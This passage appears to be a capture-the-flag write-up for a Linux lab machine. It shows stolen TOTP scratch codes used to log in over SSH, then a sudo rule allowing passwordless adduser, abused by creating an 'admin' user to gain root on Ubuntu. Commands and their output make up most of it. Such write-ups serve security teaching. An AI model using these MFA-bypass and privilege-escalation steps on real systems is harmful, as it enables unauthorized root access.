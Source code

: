 ```sh
" DISALLOW_REUSE 57299617
" TOTP_AUTH
99852083
20312647
73235136
92971994
86175591
98991823
54032641
69267218
76839253
56800775
```
Authentication succeeded
```sh
$ ssh -i id_ed25519 useradmin@10.10.124.180
(useradmin@10.10.124.180) Verification code: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro
useradmin@manage:~$ 
```
## Privilege escalation
List of  commands the current user `useradmin` can run with sudo without a password.
```sh
useradmin@manage:~$ sudo -l
Matching Defaults entries for useradmin on manage:
    env_reset, timestamp_timeout=1440, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User useradmin may run the following commands on manage:
    (ALL : ALL) NOPASSWD: /usr/sbin/adduser ^[a-zA-Z0-9]+$
```
On Ubuntu systems, creating a user named admin is a particularly effective privilege-escalation technique because of how the operating system handles this account and group by default. During system setup, if no administrative user or group exists, the adduser utility can be used to create one. When the name admin is specified, Ubuntu automatically creates both an admin user and an admin group, and the group is already referenced in the /etc/sudoers configuration. Membership in this group grants full sudo privileges, allowing the new account to execute commands as root without further configuration. By exploiting a sudo rule that allowed running adduser as root without a password, an attacker can simply create an admin user and immediately gain elevated permissions, achieving root access in a single step.

```sh
useradmin@manage:/home/karl$ sudo /usr/sbin/adduser admin
Adding user `admin' ...
Adding new group `admin' (1004) ...
Adding new user `admin' (1004) with group `admin' ...
Creating home directory `/home/admin' ...
Copying files from `/etc/skel' ...
New password: 
Retype new password: 
passwd: password updated successfully
Changing the user information for admin
Enter the new value, or press ENTER for the default
	Full Name []: 
	Room Number []: 
	Work Phone []: 
	Home Phone []: 
	Other []: 
```